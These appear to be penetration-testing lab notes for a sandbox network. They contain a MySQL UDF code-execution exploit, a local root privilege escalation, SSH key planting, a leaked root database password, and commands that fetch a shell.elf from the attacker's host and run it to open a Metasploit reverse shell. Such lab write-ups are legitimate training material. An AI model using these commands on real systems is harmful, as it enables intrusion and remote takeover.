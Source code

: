 tr -d delete;
xxd dump to hex

```
mariadb> set @shell=0x7abf.....;
select @@plugin_dir; 
select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';

```
We get error since wp does not have permission to write file  

go back to ajla to see if we can find root credentials



# Deeper Enumeration of the Web Application Server
```
searchsploit ubuntu 16.04
```

find a good local privelege escalation script
compile locally and upload to ajla, we get the root

then we add our ssh pubkey to root

then we can ssh `root@sandbox.local` to the ajla

## search for DB credentials 
inspect `.bash_history`, find:
`mysql -u root -pBmDu9xUHKe3fZi3Z7RdMBeb -h 10.5.5.11 -e 'DROP DATABASE wordpress;'`  

# Targeting the database again
```
mysql --host=127.0.0.1 --port=13306 --user=root -pBmDu9xUHKe3fZi3Z7RdMBeb
mariadb> set @shell=0x7abf.....;
select @@plugin_dir; 
select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
create function sys_exec returns int soname 'udf_sys_exec.so';
select * from mysql.func where name='sys_exec';
```

test to see if we can make network call from zora to kali
```
kali> sudo python3 -m http.server 80
```
let zora grab our shell.elf
```
select sys_exec('wget http://192.168.119.165/shell.elf');
select sys_exec('chmod +x ./shell.elf');
```

make sure metasploit is ready for the connection

```
exit # exit root shell
exit # exit shell
exit
run

select sys_exec('./shell.elf');
```
get the shell of mysql user
